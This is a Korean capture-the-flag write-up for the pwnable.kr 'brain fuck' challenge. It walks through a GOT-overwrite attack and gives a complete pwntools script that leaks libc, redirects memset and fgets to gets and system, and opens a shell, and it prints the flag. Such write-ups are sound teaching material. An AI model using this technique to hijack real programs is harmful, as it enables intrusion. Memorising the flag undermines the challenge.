



# _brain fuck_

**Category:** _Pwnable_

**Source:** _Pwnable.kr_

**Points:** _150_

**Author:** _galaxy(김경환)_

**Description:** 

> 

## Point
- brain fuck
- got overwrite

## Write-up

1. code 분석



p는 tape변수의 주소를 가지고 있습니다.

p는 전역변수입니다.

memset으로 s를 0x400만큼 초기화 합니다.

fgets로 1024만큼 input을 받습니다.

받은 input을 한 byte씩 do_brainfuck의 argument로 호출합니다.



입력받은 값에 따라 특별한 행위를 합니다.

'>' : p가 가지고 있는 주소값을 1 증가
'<' : p가 가지고 있는 주소값을 1 감소
'+' : p가 가리키고 있는 주소에 저장된 값을 1 증가 
'-' : p가 가리키고 있는 주소에 저장된 값을 1 감소
',' : p가 가리키고 있는 주소에 값을 1byte 입력
'.' : p가 가리키고 있는 주소에 값을 1byte 출력

위의 6가지 동작이 가능합니다.
'+', '-', ',', '.' 4가지 기능으로 내가 원하는 위치에 값을 자유롭게 쓸 수 있습니다.
따라서 got 수정이 가능합니다.

2. exploit

got수정으로 system('/bin/sh') 호출을 목표로 exploit 작성

memset를 gets로 overwrite
fgets를 system으로 overwrite
-> "/bin/sh" 입력하여 system 호출 가능
got를 overwrite해야 하기 때문에 libc leak해야함
main 재호출 해야함

exploit과정은 다음과 같습니다.

putschar의 got로 p를 이동하여 address leak (같이 주어진 so파일로 libc leak 가능)

putchar의 got를 main으로 overwrite하여 '.'입력시 main 재호출

memset, fgets를 gets, system으로 overwrite

main 재호출

```python
from pwn import *

if __debug__:
	script='''b main
	c
	'''
	# p=gdb.debug('./bf',script)
	p=process('./bf')
else:
	p=remote('pwnable.kr',9001)

p.recvline()
p.recvline()

e_bf=ELF('./bf')
e_so=ELF('./bf_libc.so')

# tape=0x804a0a0
# main=0x8048671
# putchar_got=0x804a030
# memset_got=0x804a02c
# fgets_got=0x804a010
# putchar_index=0xf7e44920
# system_index=0xf7e18200
# gets_index=0xf7e422b0

tape=e_bf.symbols['tape']
main=e_bf.symbols['main']
putchar_got=e_bf.got['putchar']
memset_got=e_bf.got['memset']
fgets_got=e_bf.got['fgets']
putchar_index=e_so.symbols['putchar']
system_index=e_so.symbols['system']
gets_index=e_so.symbols['gets']

payload='.'  #set putchar got
payload+='<'*(tape-putchar_got)+'>>>.<.<.<.'    #leak putchar address
payload+=',>,>,>,<<<'	#overwrite putchar to main
payload+='<'*(putchar_got-memset_got)+',>,>,>,<<<' #overwrite memset to gets
payload+='<'*(memset_got-fgets_got)+',>,>,>,<<<'	#overwrite fgets to system
payload+='.'	#call main

p.sendline(payload)

p.recv(1)	#set putchar got
putchar_addr=int(p.recv(4).encode('hex'),16)	#leak putchar address

libc=putchar_addr-putchar_index
print('libc = '+hex(libc))
system_addr=libc+system_index
gets_addr=libc+gets_index	

p.send(p32(main))	#overwrite main
p.send(p32(gets_addr))
p.send(p32(system_addr))
p.send("/bin/sh\x00")

p.interactive()
p.close()
```


Flag : **_BrainFuck? what a weird language.._**

## References
_문제를 풀면서 도움을 받은 사이트들_

_표 또는 리스트로 작성_
